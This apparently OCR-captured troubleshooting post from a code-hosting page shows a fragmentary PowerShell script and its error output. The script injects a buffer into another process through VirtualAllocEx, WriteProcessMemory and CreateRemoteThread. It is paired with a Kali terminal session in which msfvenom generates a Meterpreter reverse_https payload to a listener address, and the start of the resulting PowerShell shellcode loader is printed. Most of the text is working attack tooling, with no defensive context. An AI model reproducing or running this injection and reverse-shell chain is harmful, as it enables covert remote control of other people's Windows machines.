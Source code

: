 ```powershell
$addr = [Kernel32]::VirtualAllocEx([IntPtr]$hProcess, [IntPtr]::Zero, $buf.Length, 0x3000, 0x40);

[Int32]$lpNumberOfBytesWritten = 0
[Kernel32]::WriteProcessMemory($hProcess, $addr, $buf, $buf.Length, [ref]$lpNumberOfBytesWritten);

$ThreadId = 0
$hThread = [Kernel32]::CreateRemoteThread([IntPtr]$hProcess, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero);


```
error
```
Method invocation failed because [Kernel32] does not contain a method named 
'OpenProcess'.
```

running code -

```ps1
──(root㉿kali)-[/home/kali/codeplay/CVE-2022-1388]
└─# msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=10.10.6.12 LPORT=4443 -f psh -o new.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 747 bytes
Final size of psh file: 4404 bytes
Saved as: new.ps1
                                                                                                                             
┌──(root㉿kali)-[/home/kali/codeplay/CVE-2022-1388]
└─# cat new.ps1     
$MyOwGpiLF = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$nFHoxupEYPGPRa = Add-Type -memberDefinition $MyOwGpiLF -Name "Win32" -namespace Win32Functions -passthru

```